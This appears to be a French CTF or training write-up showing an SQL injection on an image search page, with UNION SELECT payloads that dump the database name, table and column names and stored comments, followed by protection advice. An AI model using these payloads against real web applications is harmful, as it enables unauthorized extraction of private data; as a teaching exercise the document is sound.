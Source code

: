 # Exploit 02 - SQL Injection for search image page

## Objectif

L'objectif de cet exploit est de montrer comment une injection SQL peut être utilisée pour extraire des informations sensibles d'une base de données. Dans cet exemple, nous allons cibler une page de recherche d'image vulnérable à l'injection SQL.

## Exemple d'Exploitation

### Extraction de la Database

```sql 
1 UNION ALL SELECT 1, DATABASE();
```

### Extraction des Noms de Tables

```sql 
1 UNION ALL SELECT 1, GROUP_CONCAT(table_name) FROM INFORMATION_SCHEMA.TABLES WHERE table_schema = DATABASE();
```

### Extraction des Noms de Toutes les Colonnes

```sql 
1 UNION ALL SELECT 1, GROUP_CONCAT(column_name) FROM INFORMATION_SCHEMA.COLUMNS WHERE table_schema = DATABASE();
```

### Extraction des Commentaires Spécifiques des Images

```sql
1 UNION ALL SELECT 1, GROUP_CONCAT(comment) FROM list_images;
```

### Hash de Mot de Passe
```bash
python3 get_flag.py
```

## Protection contre ce genre de cas

- **Utiliser des requêtes paramétrées** : Plutôt que de concaténer directement les entrées utilisateur dans les requêtes SQL, utilisez des requêtes paramétrées qui séparent clairement les données des instructions SQL.
  
- **Évaluer les entrées utilisateur** : Avant de les utiliser dans une requête SQL, évaluez toujours les entrées utilisateur pour s'assurer qu'elles correspondent au type attendu (par exemple, numérique, texte).
  
- **Mettre à jour régulièrement les logiciels** : Assurez-vous que tous les logiciels et bibliothèques utilisés dans le développement sont régulièrement mis à jour pour corriger les vulnérabilités connues.